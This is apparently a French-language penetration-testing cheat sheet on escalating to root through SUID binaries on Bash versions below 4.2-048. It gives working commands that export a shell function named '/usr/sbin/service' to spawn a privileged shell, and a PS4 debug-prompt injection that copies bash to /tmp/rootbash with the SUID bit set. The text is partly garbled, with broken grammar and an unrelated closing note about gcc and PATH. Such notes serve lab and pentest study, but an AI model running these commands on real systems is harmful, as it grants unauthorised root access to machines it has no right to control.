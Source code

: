 # Bash

Il est possible de définir des fonctions shell avec des noms qui ressemblent à des chemins de fichiers, puis d'exporter ces fonctions afin qu'elles soient utilisées à la place de tout exécutable réel sur ce chemin de fichier.



Vérifiez que la version de Bash installée est inférieure à 4.2-048 :

```sh
/bin/bash --version
```

**Remarque : cela ne fonctionnera pas sur les versions 4.4 et supérieures de Bash.**

Lors que un programme est executer avec son chemin absolut, verifier la version de bash

```sh
function [PROGRAM_FULL_PATH] { /bin/bash -p; }  
export -f [PROGRAM_FULL_PATH]
```

## Exemple:

L'  exécutable `/usr/local/bin/suid-env2` démarrer le serveur Web Apache2 en utilisant un chemin absolu.

- **Abusing Shell Features #1**

```
/usr/sbin/service apache2 start
```

Si la version de bash est vulnerable, alors

```sh
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```

```
/usr/local/bin/suid-env2
```

- **Abusing Shell Features #2**

En mode débogage, Bash utilise la variable d'environnement **PS4** pour afficher une invite supplémentaire pour les instructions de débogage.

```sh
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

```sh
/tmp/rootbash -p
```


## Standard Path

When we have is error with gcc 

```sh
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

